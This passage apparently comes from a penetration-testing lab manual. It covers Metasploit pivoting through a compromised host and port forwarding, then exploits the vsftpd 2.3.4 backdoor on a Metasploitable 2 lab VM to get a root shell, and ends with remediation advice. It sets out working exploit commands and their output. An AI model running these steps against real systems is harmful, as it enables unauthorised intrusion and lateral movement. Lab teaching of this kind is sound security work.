   msf6 post(multi/manage/autoroute) > set SESSION 1
   msf6 post(multi/manage/autoroute) > set SUBNET 10.0.0.0
   msf6 post(multi/manage/autoroute) > run
   [*] Added route to 10.0.0.0/255.255.255.0 via session 1
   ```

3. **Scanning the Internal Subnet**:
   - Run auxiliary TCP port scanners directly against internal systems:
     ```text showLineNumbers
     msf6 > use auxiliary/scanner/portscan/tcp
     msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.0.0.15
     msf6 auxiliary(scanner/portscan/tcp) > set PORTS 21,22,80,445,3389
     msf6 auxiliary(scanner/portscan/tcp) > run
     [+] 10.0.0.15:445 - TCP OPEN
     ```

4. **Port Forwarding via Meterpreter**:
   - Forward local port `8445` to target port `445`:
     ```text
     meterpreter > portfwd add -l 8445 -p 445 -r 10.0.0.15
     ```

### 9.4 Conclusion
- Successfully established an encrypted pivot tunnel through a compromised dual-homed machine, enabling lateral movement and vulnerability scanning across isolated internal network segments.

## 10. Practical 10: Cloud & Server Exploitation (Metasploitable)

### 10.1 Aim
- Perform reconnaissance and remote exploitation against a simulated cloud / server instance (Metasploitable 2) using Metasploit to obtain root-level access.

### 10.2 Theory & Core Concepts
- **Server-Side Misconfigurations & Legacy Vulnerabilities**:
  - Outdated daemon software with unpatched backdoor vulnerabilities or shell injection flaws.
  - Examples:
    - **vsftpd 2.3.4 Backdoor (CVE-2011-2523)**: Malicious code inserted into the official source archive that triggers a backdoor root shell on port 6200 when a smiley face `:)` is supplied as the username.
    - **Samba Usermap Script (CVE-2007-2447)**: Unescaped character input in the `username map script` configuration allows arbitrary command injection with root privileges.



### 10.3 Step-by-Step Implementation

1. **Reconnaissance with Nmap**:
   - Perform service version detection against the target instance:
     ```bash showLineNumbers
     nmap -sV -p 21,22,80,139,445 10.0.0.5
     ```
   - Identify vulnerable service banners:
     ```text
     PORT   STATE SERVICE VERSION
     21/tcp OPEN  ftp     vsftpd 2.3.4
     ```

2. **Exploiting the vsftpd 2.3.4 Backdoor**:
   ```text showLineNumbers
   msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.0.0.5
   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > check
   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

   [*] 10.0.0.5:21 - Banner: 220 (vsFTPd 2.3.4)
   [*] 10.0.0.5:21 - USER: 331 Please specify the password.
   [+] 10.0.0.5:21 - Backdoor service spawned!
   [*] Found shell.
   [*] Command shell session 1 opened (10.0.0.2:44321 -> 10.0.0.5:6200)
   ```

3. **Post-Exploitation Root Verification**:
   - Verify system privileges:
     ```bash
     id
     # uid=0(root) gid=0(root)
     uname -a
     # Linux metasploitable 2.6.24-16-server
     ```

### 10.4 Remediation Strategies
- Implement proactive vulnerability patch management and retire unsupported daemon versions.
- Enforce strict cloud network security groups (NSGs) / firewall rules restricting administrative services.

### 10.5 Conclusion
- Successfully discovered and exploited backdoored daemons in a simulated server environment. Eliminating legacy software and adhering to least privilege configurations are vital to securing cloud server infrastructure.
